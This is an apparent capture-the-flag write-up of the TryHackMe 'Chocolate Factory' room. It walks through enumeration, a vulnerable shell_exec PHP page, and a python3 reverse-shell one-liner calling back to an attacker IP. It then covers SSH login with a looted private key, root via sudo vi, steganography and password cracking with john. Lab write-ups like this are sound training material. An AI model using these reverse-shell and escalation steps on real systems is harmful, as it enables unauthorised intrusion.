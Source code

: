 # Chocolate Factory

![Charlie](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/8b5d62d5-05e3-4c30-a535-8acbab677d09)

## Enumeration

We begin by enumerating the target :

```bash
nmap -sT -sV 10.10.198.134
```
![nmap](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/005c2016-e177-4bdd-99fd-482577aae1cf)

as it shows there are plenty of ports open like `21` , `22`, `80` and other ports.

on port 80 you can see there is a login page :

![loginpage](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/7cf3893c-0f7a-44bf-a7ab-374b23889d0d)

but we don't have any credentials, and **SQLi** attack does not work here.

let's FUZZ the website with `ffuf` :

```bash
ffuf -w ~/wordlist/raft-medium-files.txt  -u http://10.10.198.134/FUZZ -fc 403
```

![ffuf](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/f894ce42-01c1-4dde-a574-2eb132bdbece)

yes , we have found 2 new directory : `home.php` and `validate.php`

navigate to `home.php` and there is an input box which you can type a command :

![home](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/46db25de-4d09-4703-8c44-3e267a9fc820)

use `ls` command to see the contents of the current directory :
```
 home.jpg home.php image.png index.html index.php.bak key_rev_key validate.php 
```

download `key_rev_key` file and see the `strings` of it :

```bash
strings key_rev_key
```

![key](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/1617e853-9449-4961-83d9-c91605f31c5d)

note and keep it.

let's download the `index.php.bak` file and see the source code :

```php
<?php
    if(isset($_POST['command']))
    {
        $cmd = $_POST['command'];
        echo shell_exec($cmd);
    }
?>   
```
so we can run any commands here

## Gaining Shell

i use a python3 reverse shell to gain access

on kali linux : 

```bash
nc -lvnp 4444
```

python3 reverse shell :

```python
export RHOST="10.18.57.234";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

we gain the shell as `www-data` 

navigate to `/home/charlie` , here we don't have access to `user.txt` but we can read the content of `teleport` which is charlie private key and `teleport.pub`

save the content of teleport file and ssh to machine with this private key

```bash
ssh -i charlie.key charlie@10.10.198.134
```

now we are user charlie and can cat the content of user.txt and find the first flag:

```bash
cat user.txt
```

## Privilege Escalation

let's see if we can escalate our privileges, i use `sudo -l` to see any sudo permissions that user charlie has :

```bash
sudo -l
```

![sudo](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/0b659a79-d057-4df8-b2c6-4418390e1040)

we can run `/usr/bin/vi` as sudo, then do it and open another shell within vi and become root :

```bash
:!/bin/bash
```

navigate to `/root` we see `root.py`, we need to execute it with `python` not python3 :

```python
python root.py
```

![rootpy](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/57b87de9-93b2-4f97-b91f-65222d8bc8aa)

enter the key you found in `key_rev_key` like this :

![root](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/a9fda0e2-bbc1-494b-a754-035d1b313936)

and you find the second flag.

## Charlie Password

To get the charlie password try to login to ftp with `anonymous` user :

```bash
ftp 10.10.198.134
```

![ftp](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/01c16df5-2a33-4e7b-b872-22228a3746e1)

download the image with `get gum_room.jpg` and look to see if any data is embedded inside it :

```bash
steghide info gum_room.jpg
```

it needs a password to show the info, just use a blank password and you see a b64.txt file is embedded inside

decode it :

```bash
cat b64.txt | base64 -d
```

![b64](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/fe129af1-ef4a-4083-aa20-477e02c4bae5)

we need to crack the charlie hashed password, save the last line in a text file and use `john` to crack it :

```bash
john hash.txt --wordlist=/usr/share/wordlist/rouckyou.txt
```
it must get you the password within 5 to 10 minutes.

This is how you solve this challenge.
